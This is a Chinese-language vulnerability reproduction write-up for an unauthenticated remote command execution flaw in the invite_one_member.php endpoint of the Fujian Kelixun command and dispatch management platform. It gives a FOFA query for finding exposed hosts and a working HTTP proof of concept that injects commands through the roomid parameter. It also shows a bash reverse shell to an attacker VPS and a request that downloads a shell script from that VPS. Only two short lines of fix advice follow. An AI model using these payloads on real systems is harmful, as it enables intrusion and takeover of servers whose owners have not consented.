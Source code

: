 
# 福建科立讯通信 指挥调度管理平台 RCE 漏洞复现

### 0x01 产品简介

   福建科立讯通信指挥调度管理平台是一个专门针对通信行业的管理平台。该产品旨在提供[高效的](https://so.csdn.net/so/search?q=%E9%AB%98%E6%95%88%E7%9A%84&spm=1001.2101.3001.7020)指挥调度和管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务，并即时获取现场反馈和报告。

### 0x02 漏洞概述

  福建科立讯通信有限公司指挥调度管理平台 invite\_one\_member.php 接口处存在远程命令执行漏洞，未经身份认证的攻击者可通给该漏洞远程执行命令，写入后门文件可导致服务器失陷。

### 0x03 复现环境

FOFA：body="指挥调度管理平台"

![](assets/1699929197-c03af0f205916a9297e4111006f1b25c.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`id>1.txt` HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

PS：漏洞没有回显，可将命令结果写到 txt 里面或者 dnslog 平台验证 

![](assets/1699929197-973de5ad138df7e9e90f6122fb3ad353.png)

![](assets/1699929197-88a85a7ba219abd5e113309a0328fe0f.png)

**反弹 Shell**

```typescript
!/bin/sh
bash -c 'exec bash -i >& /dev/tcp/VPSip/6666 0>&1'
```

```cobol
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`wget+http://vpsip/1.sh+-O+/tmp/shell.sh` HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![](assets/1699929197-616a0c393ceebd90adf4a606172a4fa1.png)

### ![](assets/1699929197-9bded5793f6e5fdcbd0be4aa5cab1cf1.png) 0x05 修复建议

 关闭互联网暴露面或接口处设置访问权限

 升级至安全版本

